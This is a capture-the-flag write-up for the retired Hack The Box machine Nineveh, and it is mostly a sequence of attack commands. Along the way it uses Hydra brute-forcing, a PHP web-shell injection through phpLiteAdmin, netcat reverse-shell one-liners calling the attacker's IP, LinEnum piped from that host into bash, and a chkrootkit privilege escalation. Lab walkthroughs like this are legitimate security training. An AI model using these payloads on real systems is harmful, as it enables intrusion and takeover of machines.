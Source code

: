 # Nineveh

This is the write-up for the box Nineveh that got retired at the 16th December 2017.
My IP address was 10.10.14.15 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.43    nineveh.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/nineveh.nmap 10.10.10.43
```

```markdown
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
```

The SSL certificate exposes the hostname _nineveh.htb_ and a potential username _admin@nineveh.htb_.

## Checking HTTP (Port 80)

On the web page there is a default "It works!" Apache page with no additional information.
Lets look for hidden paths with **Gobuster**:
```markdown
gobuster -u http://10.10.10.43/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It outputs _/department_ path which forwards to _/department/login.php_ with a login form.

![Department login page](nineveh_http-1.png)

Lets try to brute-force the credentials with **Hydra**:
```markdown
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64
```

After finishing, it found the password for the user _admin_:
> 1q2w3e4r5t

When login in with the credentials, the web page shows an _"Under Construction!"_ image.
The menu _Notes_ shows the following information:
```markdown
Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois
```

The potential username _amrois_ is disclosed. When looking at the URL of the _Notes_ menu, it looks like a file path:
```markdown
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt
```

After playing around with it, it becomes clear that this page looks for the string _ninevehNotes_ and everything without _.txt_ results in a PHP error, which means we need to create a PHP file somehow to get code execution.

## Checking HTTPS (Port 443)

On the HTTPS web page there is an image with no additional information.
Lets look for hidden paths with **Gobuster**:
```markdown
gobuster -u https://10.10.10.43/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
```

It outputs _/db_ path which wants a password for **phpLiteAdmin v1.9** and _/secure_notes_ path which displays an image without additional information.

![phpLiteAdmin login page](nineveh_https-1.png)

Lets try to brute-force the credentials with **Hydra**:
```markdown
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect" -t 64
```

After finishing, it found a valid password:
> password123

### Exploiting the database

Lets look for vulnerabilities in **phpLiteAdmin**:
```markdown
searchsploit phpliteadmin
```

The result called _PHPLiteAdmin 1.9.3 - Remote PHP Code Injection_ is a vulnerability that allows to put PHP code in a database, rename that database with a PHP extension and then execute the code.

Create new database called _ninevehNotes_:

![phpLiteAdmin create database](nineveh_https-2.png)

Create table with PHP command:
```markdown
<?php echo system($\_REQUEST["cmd"]); ?>
```

![phpLiteAdmin create table](nineveh_https-3.png)

Rename the database so it has a PHP extension:

![phpLiteAdmin rename database](nineveh_https-4.png)

Now we can browse back to the HTTP page to replace _ninevehNotes.txt_ to _ninevehNotes.php_ and try to execute a `whoami` command.
```markdown
http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.php&cmd=whoami
```

This works and displays the username _www-data_ which means we got code execution.
Now lets start a reverse shell:
```markdown
/department/manage.php?notes=/var/tmp/ninevehNotes.php&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.15+9001+>/tmp/f
```

After sending this request, the listener on my IP and port 9001 starts a session on the box as _www-data_.

## Privilege Escalation

To get an attack surface on the box we execute any **Linux Enumeration script**.
```markdown
curl 10.10.14.15 /LinEnum.sh| bash
```

Analyzing the output, the following information is interesting:
- Localhost listens on port 22 (SSH)
- Root path has a non-default folder called _/report_ that belongs to the user _amrois_

### Privilege Escalation to user

The path _/secure_notes_ on the web page with the _nineveh.png_ image is there for a reason.
When downloading it and analyzing it with `binwalk` it turns out that a **gzip** file is hidden inside of it. Lets extract everything out of the image:
```markdown
binwalk -Me nineveh.png
```

In the extracted tar file, there is a **RSA Public key (nineveh.pub)** and a **RSA Private key (nineveh.priv)**.
The public key is for the user _amrois_ so lets try to SSH into the box:
```markdown
chmod 600 nineveh.priv

ssh -i nineveh.priv amrois@nineveh.htb
```

It returns nothing because port 22 is closed as the initial scan showed us, but on the local enumeration it showed that SSH listens on localhost.
Looking at the services, there is a service called **knockd** that is a **Port Knocking** service.
The configuration file for this is in _/etc/knockd.conf_ that looks like this:
```markdown
[options]
 logfile = /var/log/knockd.log
 interface = ens33

[openSSH]
 sequence = 571, 290, 911
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn
```

It tells us, that knocking on port 571, 290, 911 allows access to port 22. A port knock works by sending a TCP packet to the ports.
```markdown
for i in 571 290 911; do nmap -Pn -p $i --host-timeout 201 --max-retries 0 10.10.10.43; done
```

Now checking for port 22 on the box with Nmap, it displays that it is open:
```markdown
nmap -p 22 10.10.10.43
```

```markdown
PORT   STATE SERVICE
22/tcp open  ssh
```

Access to SSH with the private key works now and we get in as _amrois_:
```markdown
ssh -i nineveh.priv amrois@10.10.10.43
```

### Privilege Escalation to root

In the _/report_ path there are several .txt reports that are created with one minute difference which means there is a probably a cronjob running that is doing this.

Lets look at the processes with **Pspy**:
```markdown
wget http://10.10.14.15/pspy

chmod +x pspy

./pspy
```

Every minute the box runs the `/usr/bin/chkrootkit` program.
The reports found in the _/report_ folder hold the content of the **chkrootkit** program.

When looking for vulnerabilities in this program, there is a **Privilege Escalation** for this tool:
```markdown
searchsploit chkrootkit

# Output
Chkrootkit 0.49 - Local Privilege Escalation
```

For this vulnerability it is required to create _/tmp/update_ so **chkrootkit** automatically executes it.
The file will include the code to return a reverse shell:
```markdown
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.14.15 9002 >/tmp/g
```

After a minute, the listener on my IP and port 9002 starts a reverse shell as root!
